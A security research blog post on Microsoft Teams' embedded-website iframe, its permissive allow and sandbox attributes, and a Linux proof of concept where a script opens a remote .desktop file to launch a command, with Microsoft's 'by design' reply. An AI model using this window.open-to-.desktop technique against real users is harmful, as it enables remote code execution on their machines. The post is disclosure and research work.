 ```yaml
---
layout: post
title:  "Microsoft Teams Vulnerabilities and Features!"
description: Lets talk about Microsoft Teams and Iframes!
tags: Research
---
```

# Microsoft Teams ~~Vulnerabilities~~ Features! 

In this article, I will gonna talk about research that me and my friends Bigous, Waid, and Bee made in Microsoft Teams a few time ago. This research, although it did not become a bounty, was a very interesting experience that taught us a lot about researching hardened software.

# Iframe
The Iframe, how it works, and the possible vulnerabilities that we can find in this tag is the main part of this entire research. 

While looking for interesting features in the application, we've got the feature of adding websites to add a site for other users to see. So, we decided to take a look into this iframe code:
```html
<iframe ng-if="ctrl.frame && ctrl.frame.type == 'iframe' && ctrl.frame.ready" ng-class="{'embedded-iframe-loading': ctrl.showLoadingIndicator}" title="" class="embedded-iframe embedded-page-content" name="embedded-page-container" sandbox="allow-forms allow-modals allow-popups allow-popups-to-escape-sandbox allow-pointer-lock allow-scripts allow-same-origin allow-downloads" allow="geolocation *; microphone *; camera *; midi *; encrypted-media *" data-tid="embeddedPageContainerIframe" acc-tabbable="true" allowfullscreen="" src="//website.com"></iframe>
```
As you can see, this iframe has a few interesting attributes, being the most interesting: 
- The allow attribute with the values "geolocation *; microphone *; camera *; midi *; encrypted-media *"
- The sandbox attribute with the value "allow-popups-to-escape-sandbox"

So, let's talk about what each of these attributes does exactly.

## The allow attribute
Now, if you are not a web developer you are possibly wondering what the allow attribute does. This specifies a resource policy for the iframe, i.e., it specifies which permissions can be passed from the scope of the parent site to the iframe.

As said before we can abuse the allow attribute: `allow="geolocation *; microphone *; camera *; midi *; encrypted-media *"` to gain access to the browser APIs. The problem is that when a site inside the iframe asks for authorization to access these devices, the authorization request comes from 'teams.microsoft.com', not from the iframe's website, usually by using Teams calls the user has already given these authorizations, so a site inside the iframe can have access to those APIs without permission.


## The sandbox attribute
The sandbox attribute has the value “allow-popups-to-escape-sandbox” set, which means that we can use popups out of the iframe scope, enabling us to escape the sandbox! The popups can be called with the function window.open(), this basically will open another tab in the Teams scope, but this can't only be used to open common URLs, we can use it to open up other applications instead of the system’s default browser eg: calculator://, mailto://, ms-word://... We can also try to manipulate the DOM and try to do some tricks like seen [here][ms-teams-rce], but we are "blocked" from accessing the DOM, limiting a lot the attack surface. 

![](https://i.imgur.com/0mQElWs.png)

### URI schemas

The first thing I think in this type of attack exploring URI schemas is to try to use the file:// protocol, and that's what we tried as soon we realized this possible attack vector, and obviously that doesnt work, this protocol was blocked in the electron, so we need try for another way. Another really cool idea is to use the smb:// protocol to possibly get RCE in the victim or to steal him NTLM hash, but that's disabled too.

After a few time researching about URI protocol schemas, we've found [this article][positive-security], I really recommend that you read it, because that shows us a lot of tricks to use in situations like this.

### RCE on Linux?

From the cited article, the idea of using xdg-open to call a remote .desktop, thus executing code on the victim’s machine seemed like a very interesting one, and that is what we did. So, when our victim access the application part with the Iframe, we’ve successfully Remote Code Execution (in a good part of linux distros).

When we use window.open() pointing to some website with a ‘.desktop’ file, it gets executed, running the command described in the file, for the PoC, we just used the gnome-calculator command, that in a real scenario, could be a malicious Linux command.

![](https://i.imgur.com/QguuccH.png)

Code used in Website:
```htmlembedded=
<script>
window.open('https://yourwebsite.com/poc.desktop')
</script>
```

"poc.desktop" contents:
```htmlembedded=
Desktop Entry]
Version=1.0
Type=Application
Name=RCE
Comment=
Exec=gnome-calculator
Icon=
Path=
Terminal=false
StartupNotify=false
```

### And on Windows?

For obvious reasons the xdg-open will not work in Windows, so we need a different approach to get RCE in it. Unfortunately, we have tried everything on Windows, but we didn't find anything that can lead to a 0 click RCE on Microsoft Teams running on Windows.

But we can already get Remote Code Execution by exploiting vulnerabilities in third-party applications, like [this vulnerability in steam's protocol][steam], [this vulnerability in WinSCP][winscp], or even the CVE 2021-40444 in Microsoft Word.

And we can also use Click-Once applications with 'microsoft-edge://' protocol to get a 1 click RCE, but I will not go deeper into this.

# Microsoft's response

After about a month that we’ve contacted Microsoft, they’ve sent us an email with the following message:

In this case this would be by design functionality. The users are allowed to load external content in that location as a feature. The inability to access the DOM limits the actions of the attacker. We do note, that the window could be clearer in starting that it is external content, and we have forwarded this information over to the product's functional team for review for future versions. For now we are closing this case out as this is currently how this function is intended to work.

# Conclusion

Although Microsoft says it doesn't see this as a security issue, it was a very fun, and very unusual, learning experience that forced me to study a widely used and hardened application.


# References:
1. https://positive.security/blog/url-open-rce
2. https://0x00sec.org/t/using-uri-to-pop-shells-via-the-discord-client/11673
3. https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml
4. https://github.com/oskarsve/ms-teams-rce
5. https://docs.microsoft.com/visualstudio/deployment/publishing-clickonce-applications

[ms-teams-rce]: https://github.com/oskarsve/ms-teams-rce
[positive-security]: https://positive.security/blog/url-open-rce
[steam]: http://revuln.com/files/ReVuln_Steam_Browser_Protocol_Insecurity.pdf
[winscp]: https://nvd.nist.gov/vuln/detail/CVE-2021-3331
